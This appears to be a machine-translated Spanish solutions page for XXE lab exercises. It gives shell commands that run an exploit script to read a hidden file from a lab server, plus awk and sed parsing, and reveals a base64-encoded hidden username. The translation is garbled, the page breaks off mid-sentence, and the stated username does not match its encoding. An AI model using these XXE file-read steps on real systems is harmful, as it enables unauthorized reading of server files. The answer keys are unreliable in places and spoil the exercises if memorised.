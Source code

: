 A continuación, puedes encontrar soluciones para cada tarea. Recuerde, sin embargo, que usted puede seguir su propia estrategia, que puede ser diferente de la que se explica en el siguiente laboratorio.

> NOTA: Las técnicas a utilizar durante este laboratorio se explican mejor en el material del estudio. Usted debe referirse a él para más detalles. Estas soluciones se proporcionan aquí sólo para verificar la corrección.

### Solutions - Lab #1

Explotación básica XXE: requiere un archivo para la solución:

_Simplemente calentamiento_ Etapas de explotación:

```bash
Download the content of .letmepass (exploit.sh can be found at http://1.xxe.labs/solution/exploit.sh)

./exploit.sh {DOCROOT}/.letmepass
```

Extraer el contenido del resultado:

```bash
[Step 1] | awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'

OR

[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Eliminar JSON escapar de los personajes:

```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Comando de prueba:

Nota: este es el comando awk basado en GNU:

```bash
./exploit.sh /var/www/1/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g'
```

### Solutions - Lab #2

Explotación básica XXE y rizo básico con solución codificada base64:

_Simple (codificado) calentamiento_

Fasea válida

El nombre de usuario oculto es el Ohpe que base64-codificado es: **dGhlT2hwZQ ==**.

Para recuperar el valor, se requiere realizar una solicitud DELETE al script whois.php. Subs de explotación
